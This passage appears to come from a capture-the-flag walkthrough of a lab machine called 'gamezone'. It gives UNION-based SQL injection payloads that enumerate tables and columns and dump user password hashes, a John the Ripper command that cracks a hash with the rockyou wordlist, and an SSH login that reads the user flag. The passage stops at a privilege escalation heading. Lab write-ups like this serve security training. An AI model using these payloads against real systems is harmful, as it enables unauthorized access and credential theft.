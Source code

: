 The following query will extract information only from the database that we are interested in. If we do not find interesting information in our database, we could run the same queries against the other databases to extract information.

```
' union select 1,table_name, NULL from information_schema.tables where table_schema ='db';#
```

![10]

We found two tables, at first glance the one that stands out the most is "users", it may contain sensitive information about users such as password hashes.

We need to know the names of the columns in the users table, so we will use a query similar to the previous one.

```
' union select 1,column_name, NULL from information_schema.columns where table_schema ='db' and table_name ='users';#
```

![11]

Using the column names we obtained previously and taking advantage of having two injectable columns, we can extract the contents of the table with a simple query.

```
' union select 1, username, pwd from users;#
```

![12]

With this injection we have obtained the password hash of the user agent47.

With the tool John the Ripper, we will try to crack the hash of the password to obtain it in plain text.

```
john pwd.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![13]

The password is videogamer124

![14]

You log in to the SSH service using these credentials and obtain the flag for the user.

```
agent47@gamezone:~$ cat user.txt 

649ac17b1480ac13ef1e4fa579dac95c

```

## Privilege Escalation
